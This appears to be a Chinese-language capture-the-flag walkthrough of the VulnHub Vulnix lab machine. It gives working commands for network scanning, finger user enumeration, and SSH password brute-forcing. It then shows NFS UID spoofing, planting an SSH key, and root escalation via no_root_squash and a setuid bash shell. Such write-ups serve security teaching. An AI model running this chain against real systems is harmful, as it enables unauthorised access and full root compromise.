



# HackLAB：vulnix

> 下载地址：https://download.vulnhub.com/hacklab/Vulnix.7z
>

## 实战操作

### 信息收集

```
┌──(root💀kali)-[~]
└─# fping -a  -g 192.168.32.0/24 > /tmp/scan.log  
┌──(root💀kali)-[~]
└─# cat /tmp/scan.log                                                                                                                                                                                                                    1 ⨯
192.168.32.1
192.168.32.2
192.168.32.130
192.168.32.143
```

找到靶机IP：`192.168.32.143`

对IP进行端口扫描

```
┌──(root💀kali)-[~]
└─# nmap  -sT -sC -sV -A -O  -p1-65535 192.168.32.143                                                                                                                                                                                  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-29 21:58 EDT
Nmap scan report for 192.168.32.143
Host is up (0.00085s latency).
Not shown: 65518 closed tcp ports (conn-refused)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 10:cd:9e:a0:e4:e0:30:24:3e:bd:67:5f:75:4a:33:bf (DSA)
|   2048 bc:f9:24:07:2f:cb:76:80:0d:27:a6:48:52:0a:24:3a (RSA)
|_  256 4d:bb:4a:c1:18:e8:da:d1:82:6f:58:52:9c:ee:34:5f (ECDSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: vulnix, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
|_ssl-date: 2022-05-30T01:58:33+00:00; +2s from scanner time.
79/tcp    open  finger     Linux fingerd
|_finger: No one logged on.\x0D
110/tcp   open  pop3       Dovecot pop3d
|_pop3-capabilities: SASL PIPELINING TOP RESP-CODES STLS UIDL CAPA
|_ssl-date: 2022-05-30T01:58:33+00:00; +2s from scanner time.
111/tcp   open  rpcbind    2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      34690/tcp   mountd
|   100005  1,2,3      40182/tcp6  mountd
|   100005  1,2,3      46697/udp   mountd
|   100005  1,2,3      48580/udp6  mountd
|   100021  1,3,4      35088/tcp6  nlockmgr
|   100021  1,3,4      37627/tcp   nlockmgr
|   100021  1,3,4      47312/udp   nlockmgr
|   100021  1,3,4      56054/udp6  nlockmgr
|   100024  1          32992/udp   status
|   100024  1          45632/tcp   status
|   100024  1          55313/udp6  status
|   100024  1          59036/tcp6  status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
143/tcp   open  imap       Dovecot imapd
|_imap-capabilities: capabilities more IMAP4rev1 SASL-IR Pre-login STARTTLS LITERAL+ IDLE LOGIN-REFERRALS post-login listed ENABLE have LOGINDISABLEDA0001 OK ID
|_ssl-date: 2022-05-30T01:58:33+00:00; +2s from scanner time.
512/tcp   open  exec       netkit-rsh rexecd
513/tcp   open  login      OpenBSD or Solaris rlogind
514/tcp   open  tcpwrapped
993/tcp   open  ssl/imaps?
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2022-05-30T01:58:33+00:00; +2s from scanner time.
995/tcp   open  ssl/pop3s?
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2022-05-30T01:58:33+00:00; +2s from scanner time.
2049/tcp  open  nfs_acl    2-3 (RPC #100227)
34690/tcp open  mountd     1-3 (RPC #100005)
37627/tcp open  nlockmgr   1-4 (RPC #100021)
45632/tcp open  status     1 (RPC #100024)
55719/tcp open  mountd     1-3 (RPC #100005)
60479/tcp open  mountd     1-3 (RPC #100005)
MAC Address: 00:0C:29:78:E8:C4 (VMware)
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10
Network Distance: 1 hop
Service Info: Host:  vulnix; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s

TRACEROUTE
HOP RTT     ADDRESS
1   0.85 ms 192.168.32.143

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.55 seconds

```

#### SSH服务

```
┌──(root💀kali)-[~]
└─# searchsploit openssh 5  
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Dropbear / OpenSSH Server - 'MAX_UNAUTH_CLIENTS' Denial of Service                                                                                                                                         | multiple/dos/1572.pl
FreeBSD OpenSSH 3.5p1 - Remote Command Execution                                                                                                                                                           | freebsd/remote/17462.txt
glibc-2.2 / openssh-2.3.0p1 / glibc 2.1.9x - File Read                                                                                                                                                     | linux/local/258.sh
Novell Netware 6.5 - OpenSSH Remote Stack Overflow                                                                                                                                                         | novell/dos/14866.txt
OpenSSH 1.2 - '.scp' File Create/Overwrite                                                                                                                                                                 | linux/remote/20253.sh
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                                                                                                   | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                                                                                                             | linux/remote/45210.py
OpenSSH 3.x - Challenge-Response Buffer Overflow (1)                                                                                                                                                       | unix/remote/21578.txt
OpenSSH 3.x - Challenge-Response Buffer Overflow (2)                                                                                                                                                       | unix/remote/21579.txt
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection                                                                                                                                                    | multiple/remote/39569.py
OpenSSH < 6.6 SFTP (x64) - Command Execution                                                                                                                                                               | linux_x86-64/remote/45000.c
OpenSSH < 6.6 SFTP - Command Execution                                                                                                                                                                     | linux/remote/45001.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation                                                                                                       | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                                                                                                                                   | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                                                                                                                       | linux/remote/45939.py
OpenSSH < 7.7 - User Enumeration (2)                                                                                                                                                                       | linux/remote/45939.py
OpenSSH SCP Client - Write Arbitrary Files                                                                                                                                                                 | multiple/remote/46516.py
OpenSSH/PAM 3.6.1p1 - Remote Users Discovery Tool                                                                                                                                                          | linux/remote/25.c
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

#### Finger服务

> Finger 命令用于 Linux 和类 Unix 系统中，用于从终端检查任何当前登录用户的信息。它是一个命令行实用程序，可以为用户提供登录时间、tty（名称）、空闲时间、主目录、shell 名称等。

枚举系统用户

```
msf6 > use auxiliary/scanner/finger/finger_users
msf6 auxiliary(scanner/finger/finger_users) > show options

Module options (auxiliary/scanner/finger/finger_users):

   Name        Current Setting                                                Required  Description
   ----        ---------------                                                --------  -----------
   RHOSTS                                                                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       79                                                             yes       The target port (TCP)
   THREADS     1                                                              yes       The number of concurrent threads (max one per host)
   USERS_FILE  /usr/share/metasploit-framework/data/wordlists/unix_users.txt  yes       The file that contains a list of default UNIX accounts.

msf6 auxiliary(scanner/finger/finger_users) > set rhosts 192.168.32.143
rhosts => 192.168.32.143
msf6 auxiliary(scanner/finger/finger_users) > set threads 100
threads => 100
msf6 auxiliary(scanner/finger/finger_users) > run

[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: backup
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: bin
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: daemon
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: games
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: gnats
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: irc
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: landscape
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: libuuid
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: list
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: lp
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: mail
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: dovecot
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: man
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: messagebus
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: news
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: nobody
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: postfix
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: proxy
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: root
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: sshd
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: sync
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: sys
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: syslog
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: user
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: dovenull
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: uucp
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: whoopsie
[+] 192.168.32.143:79     - 192.168.32.143:79 - Found user: www-data
[+] 192.168.32.143:79     - 192.168.32.143:79 Users found: backup, bin, daemon, dovecot, dovenull, games, gnats, irc, landscape, libuuid, list, lp, mail, man, messagebus, news, nobody, postfix, proxy, root, sshd, sync, sys, syslog, user, uucp, whoopsie, www-data
[*] 192.168.32.143:79     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```




#### **NFS**服务

可以发现有`/home/vulnix`挂载出来

```
┌──(root💀kali)-[~]
└─# showmount -e 192.168.32.143               
Export list for 192.168.32.143:
/home/vulnix *
```

本地挂载`/home/vulnix`文件夹

```
┌──(root💀kali)-[~]
└─# mount -t nfs 192.168.32.143:/home/vulnix  /data/vulnix
                                                                             
┌──(root💀kali)-[~]
└─# ls -al /data/vulnix 
ls: cannot open directory '/data/vulnix': Permission denied
                                                                             
┌──(root💀kali)-[~]
└─# ls -al /data/                                                        2 ⨯
total 48
drwxr-xr-x  3 root   root        4096 May 29 22:16 .
drwxr-xr-x 20 root   root       36864 May 29 22:16 ..
drwxr-x---  2 nobody 4294967294  4096 Sep  2  2012 vulnix
```

无法访问挂载的共享，可能是因为[设置了 root_squash 标志](https://access.redhat.com/documentation/en-US/Red_Hat_Enterprise_Linux/6/html/Security_Guide/sect-Security_Guide-Securing_NFS-Do_Not_Use_the_no_root_squash_Option.html)。我们可以放心地假设，如果我们有一个名为 vulnix 且具有相同 UID 的用户，我们将能够访问它。但我们稍后再谈。


### 获取权限

#### SSH服务爆破

创建用户文件

```
user
vulnix
root
```

然后使用字典列表rockyou.txt破解密码：

```
root@kali:~/vulnhub/vulnix# medusa -h 192.168.32.143  -U user.txt -P /usr/share/wordlists/rockyou.txt -e ns -f -M ssh -t 64
```

终于破解了用户user的密码，即`letmein`。

```
┌──(root💀kali)-[/tmp]
└─# ssh user@192.168.32.143                                                                                    
The authenticity of host '192.168.32.143 (192.168.32.143)' can't be established.
ECDSA key fingerprint is SHA256:IGOuLMZRTuUvY58a8TN+ef/1zyRCAHk0qYP4wMViOAg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.32.143' (ECDSA) to the list of known hosts.
user@192.168.32.143's password: 
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Mon May 30 04:28:36 BST 2022

  System load:  0.0              Processes:           89
  Usage of /:   90.3% of 773MB   Users logged in:     0
  Memory usage: 7%               IP address for eth0: 192.168.32.143
  Swap usage:   0%

  => / is using 90.3% of 773MB

  Graph this data and manage this system at https://landscape.canonical.com/

user@vulnix:~$ 

```

检查受害服务器上的/etc/passwd文件，发现用户vulnix具有UID 2008，因此在本地计算机上创建了一个名为vulnix的用户，UID为2008，然后尝试再次访问该分区：



使用新创建的vulnix用户（具有UID 2008权限）成功进入已经挂载的/mnt/vulnix文件夹

```
┌──(root💀kali)-[~]
└─# useradd -u 2008 vulnix
┌──(root💀kali)-[~]
└─# su vulnix
$ cd /data/vulnix
$ ls -al
total 20
drwxr-x--- 2 vulnix vulnix 4096 Sep  2  2012 .
drwxr-xr-x 3 root   root   4096 May 29 22:16 ..
-rw-r--r-- 1 vulnix vulnix  220 Apr  3  2012 .bash_logout
-rw-r--r-- 1 vulnix vulnix 3486 Apr  3  2012 .bashrc
-rw-r--r-- 1 vulnix vulnix  675 Apr  3  2012 .profile
```

生成一个SSH密钥，以vulnix用户身份登录而不需要密码：

```
┌──(root💀kali)-[~]
└─# ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/id_rsa
Your public key has been saved in /root/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:N6J9EV4I5eAiJwrnp4HeSEXnh4jXL3ayejUzBPkdGgo root@kali
The key's randomart image is:
+---[RSA 3072]----+
|   . .. o..      |
|  oE=o.o = .     |
|...+++*.= = .    |
| =o. =o= o o     |
|..+ .+.oS =      |
|o o+. =B o o     |
| o.. .o = .      |
|    ..   .       |
|   ..            |
+----[SHA256]-----+

┌──(root💀kali)-[~]
└─# cp /root/.ssh/id_rsa.pub /tmp/authorized_keys 
                                                                                                                     
┌──(root💀kali)-[~]
└─# chmod 777 /tmp/authorized_keys    
```

NFS股灾文件夹放入公钥

```
$ mkdir .ssh
$ cd .ssh       
$ cp /tmp/authorized_keys .
$ ls
authorized_keys
```

使用公钥进行登录

```
┌──(root💀kali)-[~]
└─# ssh vulnix@192.168.32.143 -i id_rsa       
Warning: Identity file id_rsa not accessible: No such file or directory.
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Mon May 30 05:49:42 BST 2022

  System load:  0.0              Processes:           92
  Usage of /:   90.3% of 773MB   Users logged in:     1
  Memory usage: 9%               IP address for eth0: 192.168.32.143
  Swap usage:   0%

  => / is using 90.3% of 773MB

  Graph this data and manage this system at https://landscape.canonical.com/

Your Ubuntu release is not supported anymore.
For upgrade information, please visit:
http://www.ubuntu.com/releaseendoflife

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

vulnix@vulnix:~$ 

```

### 提权

```
vulnix@vulnix:~$ sudo -l
Matching 'Defaults' entries for vulnix on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User vulnix may run the following commands on this host:
    (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports

```

可以运行命令来打开/etc/exports，不用输入密码。这是发现的：



用no_root_squash替换了root_squash flag。需要作弊，因为没有vulnix的密码，而且没有sudo用户执行命令/usr/sbin/exportfs -a或计算机重新引导，就无法再次导出NFS分区，所以手动重新引导

- root_squash： 客户端的root用户映射到任何人：客户端无法使用setuid位将恶意软件留给他人执行。
- no_root_squash：通过此选项，停用了此安全功能，从而允许客户端的root权限操作最终以root身份出现在导出的文件系统中（因此，在其余客户端中）。

在受害者的机器上，如"vulnix"：

```
vulnix@vulnix:~$ cp /bin/bash local_shell
vulnix@vulnix:~$ ls
local_shell
```

在本地计算机上，以`root`身份：

```
root@kali:/mnt/vulnix# cat local_shell > spawn_root_shell
root@kali:/mnt/vulnix# ls
local_shell  spawn_root_shell
root@kali:/mnt/vulnix# chmod 4777 *
root@kali:/mnt/vulnix# ls -la
总用量 1828
drwxr-x--- 4 vulnix vulnix   4096 4月  16 02:33 .
drwxr-xr-x 3 root   root     4096 4月  15 23:00 ..
-rw------- 1 vulnix vulnix      0 4月  16 02:27 .bash_history
-rw-r--r-- 1 vulnix vulnix    220 4月   3  2012 .bash_logout
-rw-r--r-- 1 vulnix vulnix   3486 4月   3  2012 .bashrc
drwx------ 2 vulnix vulnix   4096 4月  15 23:23 .cache
-rwsrwxrwx 1 vulnix vulnix 920788 4月  16 02:24 local_shell
-rw-r--r-- 1 vulnix vulnix    675 4月   3  2012 .profile
-rwsrwxrwx 1 root   root   920788 4月  16 02:33 spawn_root_shell
drwxr-xr-x 2 vulnix vulnix   4096 4月  15 23:21 .ssh
```

然后在受害人的机器上执行shell，并保留带有flag -p的原始文件的权限：

```
vulnix@vulnix:~$ ls -la
total 1828
drwxr-x--- 4 vulnix vulnix   4096 Apr 16 07:33 .
drwxr-xr-x 4 root   root     4096 Sep  2  2012 ..
-rw------- 1 vulnix vulnix      0 Apr 16 07:27 .bash_history
-rw-r--r-- 1 vulnix vulnix    220 Apr  3  2012 .bash_logout
-rw-r--r-- 1 vulnix vulnix   3486 Apr  3  2012 .bashrc
drwx------ 2 vulnix vulnix   4096 Apr 16 04:23 .cache
-rwsrwxrwx 1 vulnix vulnix 920788 Apr 16 07:24 local_shell
-rw-r--r-- 1 vulnix vulnix    675 Apr  3  2012 .profile
-rwsrwxrwx 1 root   root   920788 Apr 16 07:33 spawn_root_shell
drwxr-xr-x 2 vulnix vulnix   4096 Apr 16 04:21 .ssh
vulnix@vulnix:~$ ./spawn_root_shell -p
spawn_root_shell-4.2# id
uid=2008(vulnix) gid=2008(vulnix) euid=0(root) groups=0(root),2008(vulnix)
spawn_root_shell-4.2# whoami
root
spawn_root_shell-4.2# cd /root
spawn_root_shell-4.2# ls
trophy.txt
spawn_root_shell-4.2# cat trophy.txt
cc614640424f5bd60ce5d5264899c3be
```
